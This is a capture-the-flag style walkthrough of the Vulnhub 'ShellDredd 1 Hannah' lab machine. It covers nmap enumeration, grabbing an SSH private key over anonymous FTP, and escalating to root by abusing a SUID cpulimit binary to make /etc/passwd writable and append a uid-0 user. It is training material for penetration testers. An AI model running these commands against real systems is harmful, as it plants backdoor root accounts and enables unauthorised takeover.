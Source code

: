 ```yaml
---
title: Vulnhub - OnSystem ShellDredd 1 Hannah
description: My writeup on OnSystem ShellDredd 1 Hannah box.
categories:
 - vulnhub
tags: vulnhub ssh etcpasswd cpulimit
---
```


![](https://i.imgur.com/LeUKXhe.png)

You can find the machine there > [OnSystem ShellDredd #1 Hannah](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/){:target="_blank"}

## Summary

This box was a really easy one, starting off by login into FTP anonymous and grab hannah's SSH private key this will give us a low-privilege shell. Rooting the box is a bit tricky because the cpulimit SUID doesn't allow us to spawn a root shell directly. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.7 
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 12:59 EEST
Nmap scan report for shelldredd.zte.com.cn (192.168.1.7)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown
MAC Address: 08:00:27:F6:95:7A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.40 seconds
$ nmap -p 21,61000 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 12:59 EEST
Nmap scan report for shelldredd.zte.com.cn (192.168.1.7)
Host is up (0.00038s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
```

No web stuff interesting, let's login into FTP since we have anonymous. There we can find a SSH private key.

```
$ ftp $ip
Connected to 192.168.1.7.
220 (vsFTPd 3.0.3)
Name (192.168.1.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06 16:56 .
drwxr-xr-x    3 0        115          4096 Aug 06 16:56 ..
drwxr-xr-x    2 0        0            4096 Aug 06 16:54 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            1823 Aug 06 16:54 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
226 Transfer complete.
1823 bytes received in 0.00 secs (2.0599 MB/s)
```

## Shell as hannah

Since the key is in hannah's folder, we have the username and now we can login in.

```
$ chmod 600 id_rsa 
$ ssh -i id_rsa hannah@$ip -p 61000

hannah@ShellDredd:~$ whoami;id
hannah
uid=1000(hannah) gid=1000(hannah) grupos=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Doing the classic enumeration, i found out an interesting SUID.

```
hannah@ShellDredd:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```

I checked the [gtfobins](https://gtfobins.github.io/gtfobins/cpulimit/){:target="_blank"} page but there is no SUID option.. hm anyway i tried to execute the same command but no luck gaining a root shell.

```
hannah@ShellDredd:~$ cpulimit -l 100 -f /bin/sh
Process 667 detected
$ whoami
hannah
```

But if we run an another command like "whoami" we can get command execution as root!

```
hannah@ShellDredd:~$ cpulimit -l 100 -f whoami
Process 671 detected
root
Child process is finished, exiting...
```

So now i found a way to gain root shell, i'll make `/etc/passwd` writable and we will add a root user in! :sunglasses:

```
hannah@ShellDredd:~$ cpulimit -l 100 -f chmod o+w /etc/passwd
Process 678 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ ls -la /etc/passwd
-rw-r--rw- 1 root root 1541 ago  6 16:43 /etc/passwd
```

Let's generate a password now for the user.

```
$ openssl passwd -6 -salt xyz pwned    
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

This will be our "payload":

```
pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash
```

Let's add it in & get root shell! :fire:

```
hannah@ShellDredd:~$ nano /etc/passwd
hannah@ShellDredd:~$ cat /etc/passwd | tail -1
pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash
hannah@ShellDredd:~$ su - pwned
Contraseña: 
root@ShellDredd:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

Let's read the flags:

```
root@ShellDredd:~# cat root.txt 
yeZCB44MPH2KQwbssgTQ2Nof
root@ShellDredd:~# cat /home/hannah/user.txt 
Gr3mMhbCpuwxCZorqDL3ILPn
```

Enjoyed this privesc! :smile:
